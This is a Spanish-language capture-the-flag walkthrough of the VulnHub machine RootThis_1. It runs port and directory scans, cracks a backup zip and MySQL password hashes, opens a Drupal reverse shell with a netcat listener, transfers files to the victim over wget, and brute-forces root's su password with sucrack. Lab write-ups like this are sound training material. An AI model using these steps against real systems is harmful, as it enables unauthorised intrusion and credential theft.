







# RootThis\_1 VulnHub

### Escaneo de puertos

```shell
nmap -p- --min-rate 5000 -sV <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-04 11:24 EDT
Nmap scan report for 192.168.5.168
Host is up (0.00054s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 00:0C:29:0D:F7:7A (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.54 ms 192.168.5.168

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.92 seconds
```

### Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt -t 50 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.5.168/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess.txt        (Status: 403) [Size: 301]
/.htpasswd            (Status: 403) [Size: 297]
/.htaccess            (Status: 403) [Size: 297]
/.htpasswd.php        (Status: 403) [Size: 301]
/.htpasswd.html       (Status: 403) [Size: 302]
/.htpasswd.txt        (Status: 403) [Size: 301]
/.htaccess.php        (Status: 403) [Size: 301]
/.htaccess.html       (Status: 403) [Size: 302]
/backup               (Status: 200) [Size: 270103]
/index.html           (Status: 200) [Size: 10701]
/manual               (Status: 200) [Size: 626]
/server-status        (Status: 403) [Size: 301]
Progress: 81876 / 81880 (100.00%)
/drupal               (Status: 200) [Size: 7658]
===============================================================
Finished
===============================================================
```

Nos apareceran 2 directorios bastante interesantes llamados `/drupal` y `/backups`, en la parte de `drupal` encontraremos un panel de login y en la de `backups` nos descargara un `.zip` que contendra informacion de una base de datos de `mysql` pero protegido con contraseña...

```shell
mv backups backups.zip
```

```shell
zip2john backup.zip > pass.txt
```

```shell
john --wordlist=<WORDLIST> pass.txt
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thebackup        (backup.zip/dump.sql)     
1g 0:00:00:00 DONE (2024-06-04 11:30) 3.703g/s 12136Kp/s 12136Kc/s 12136KC/s thebill06..texel38
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Por lo que vemos nos saca la contraseña del `.zip`, por lo que lo descomprimimos...

```shell
unzip backups.zip
```

Info:

```
Archive:  backup.zip
[backup.zip] dump.sql password: 
  inflating: dump.sql
```

Y si vemos su contenido, veremos muchas cosas, pero entre ellas lo que parece interesante es lo siguiente...

```
\nMariaDB> SELECT PASSWORD(\'mypass\');

INSERT INTO `user` VALUES ('localhost','root','*7AFEAE5774E672996251E09B946CB3953FC67656','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','','','','',0,0,0,0,'unix_socket','','N','N','',0.000000),('localhost','webman','*9AF2F8E8C08165DC70FA4B4F8D40EA6EC84CB6D2','N','N','N','N','N','N','N','N','N','N','N','N','N','N','N','N','N','N','N','N','N','N','N','N','N','N','N','N','N','','','','',0,0,0,0,'','','N','N','',0.000000);
```

```shell
hashcat -m300 -a0 <HASH_FILE> <WORDLIST>
```

Info:

```
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 16.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-sandybridge-12th Gen Intel(R) Core(TM) i7-12700H, 1418/2901 MB (512 MB allocatable), 8MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 2 digests; 2 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

9af2f8e8c08165dc70fa4b4f8d40ea6ec84cb6d2:moranguita       
Cracking performance lower than expected?                 

* Append -O to the commandline.
  This lowers the maximum supported password/salt length (usually down to 32).

* Append -w 3 to the commandline.
  This can cause your screen to lag.

* Append -S to the commandline.
  This has a drastic speed impact but can be better for specific attacks.
  Typical scenarios are a small wordlist but a large ruleset.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

Approaching final keyspace - workload adjusted.           

                                                          
Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 300 (MySQL4.1/MySQL5)
Hash.Target......: hash
Time.Started.....: Tue Jun  4 12:01:26 2024 (13 secs)
Time.Estimated...: Tue Jun  4 12:01:39 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1441.7 kH/s (0.14ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/2 (50.00%) Digests (total), 1/2 (50.00%) Digests (new)
Progress.........: 14344385/14344385 (100.00%)
Rejected.........: 0/14344385 (0.00%)
Restore.Point....: 14344385/14344385 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: $HEX[206b72697374656e616e6e65] -> $HEX[042a0337c2a156616d6f732103]
Hardware.Mon.#1..: Util: 22%

Started: Tue Jun  4 12:00:54 2024
Stopped: Tue Jun  4 12:01:41 2024
```

Nos saca las credenciales de `webman`, si las utilizamos en la pagina nos logeara...

```
User = webman
Pass = moranguita
```

Una vez que estemos dentro del drupal haremos lo siguiente para conseguir una `Reverse Shell`...

URL = https://www.sevenlayers.com/index.php/blog/413-drupal-to-reverse-shell

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Antes de darle a `Preview` estaremos a la escucha...

```shell
nc -lvnp <PORT>
```

<figure><figcaption></figcaption></figure>

Una vez hecho esto ya tendremos una shell con el usuario `www-data`, por lo que la tendremos que sanitizar...

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Si nos vamos a la `/home` del usuario `user` leeremos la siguiente nota llamada `MessageToRoot.txt`...

```
Hi root,

Your password for this machine is weak and within the first 300 words of the rockyou.txt wordlist. Fortunately root is not accessible via ssh. Please update the password to a more secure one.

Regards,
user
```

Investigando en el `backup` que encontramos antes de `mysql` encontre esto...

```
CREATE USER \'jeffrey\'@\'localhost\'\nIDENTIFIED BY PASSWORD \'*90E462C37378CED12064BB3388827D2BA3A9B689\';
```

```shell
hashcat -m300 -a0 <HASH_FILE> <WORDLIST>
```

Info:

```
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 16.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-sandybridge-12th Gen Intel(R) Core(TM) i7-12700H, 1418/2901 MB (512 MB allocatable), 8MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

90e462c37378ced12064bb3388827d2ba3a9b689:biscuit          
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 300 (MySQL4.1/MySQL5)
Hash.Target......: 90e462c37378ced12064bb3388827d2ba3a9b689
Time.Started.....: Tue Jun  4 12:47:05 2024 (0 secs)
Time.Estimated...: Tue Jun  4 12:47:05 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1297.7 kH/s (0.58ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 4096/14344385 (0.03%)
Rejected.........: 0/4096 (0.00%)
Restore.Point....: 2048/14344385 (0.01%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: slimshady -> oooooo
Hardware.Mon.#1..: Util: 13%

Started: Tue Jun  4 12:47:04 2024
Stopped: Tue Jun  4 12:47:07 2024
```

```
User = jeffrey
Pass = biscuit
```

Nos saca la `password` pero no nos deja entrar por `mysql` y no es la `password` de nadie, asi que nos la guardaremos...

Pero en la nota vimos que la contraseña de `root` esta de la `0-300` lineas del diccionario `rockyou.txt` por lo que en nuestro `host` haremos lo siguiente...

```shell
head -300 /usr/share/wordlists/rockyou.txt > dic.txt
```

```shell
python3 -m http.server 80
```

En la maquina victima...

```shell
cd /tmp/
```

```shell
wget http://<IP>/dic.txt
```

Una vez hecho esto ya tendriamos el diccionario que utilizaremos para probar las crontraseñas para explotar al usuario `root`...

Utilizaremos un repositorio de `GitHub` llamado `sucrack`...

URL = https://github.com/hemp3l/sucrack

Esto nos lo descargamos en nuestro `host` y hacemos lo siguiente...

```shell
git clone https://github.com/hemp3l/sucrack.git
```

```shell
cd sucrack/ 

./configure 

make 

tar -cvf sucrack.tar sucrack/
```

Una vez hecho todo eso mediante `python` nos pasamos el archivo nuevamente comprimido...

```shell
tar -xvf sucrack.tar
```

Una vez descomprimido hacemos lo siguiente...

```shell
cd /sucrack/src/
```

```shell
./sucrack -u root dict.txt
```

Info:

```
Password is: 789456123
```

Por lo que nos cambiamos a `root`...

```shell
su root
```

Una vez siendo `root` leeremos la flag...

> flag.txt (flag\_final)

```
Congratulations!

flag: a67d764105005a6a95a9c8c03bc95710bc396dccc4364704127170637b2bd39d
```
